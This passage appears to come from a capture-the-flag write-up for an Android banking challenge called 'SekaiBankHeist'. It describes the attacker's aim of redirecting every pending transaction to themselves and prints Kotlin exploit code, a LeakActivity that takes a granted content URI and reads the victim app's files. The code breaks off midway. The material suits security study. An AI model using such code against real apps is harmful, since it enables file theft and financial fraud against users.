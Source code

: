 ```kotlin
    SekaiBankHeistTheme {
        Greeting("Android")
    }
}
```

### The driveaway

Actually receive the granted access and read the files.

Change every pending transaction to be sent to me, and change the amount of 1 million, _also make them immediate_.

```kotlin
package com.sekai.heist

import android.annotation.SuppressLint
import android.content.ComponentName
import android.content.Intent
import android.net.Uri
import android.os.Bundle
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.activity.enableEdgeToEdge
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.padding
import androidx.compose.material3.Scaffold
import androidx.compose.ui.Modifier
import com.sekai.heist.ui.theme.SekaiBankHeistTheme
import org.json.JSONObject
import java.text.SimpleDateFormat
import java.util.Date
import java.util.Locale

class LeakActivity : ComponentActivity() {
    @SuppressLint("Range")
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        if (intent.data != null) {
            println()
            println()
            println("OWO!!!! IT WORKED!!!")
            println(intent.data)
            println()
            val uri: Uri = intent.data!!
            println("path = ${uri.path}")
            val cursor =
                contentResolver.query(
                    uri,
                    arrayOf<String>("name", "size", "path"),
                    null, null, null
                )
            val b = StringBuilder()
            if (cursor != null) {
                while (cursor.moveToNext()) {
                    val fileName = cursor.getString(cursor.getColumnIndex("name"))
                    println("$fileName:")
                    b.append(fileName).append("\n")
                    try {
                        val fileUri = Uri.withAppendedPath(intent.data, fileName)
                        val `is` = contentResolver.openInputStream(fileUri)
                        val readBytes = `is`?.readBytes()
                        val data = readBytes?.let { String(it) }!!
```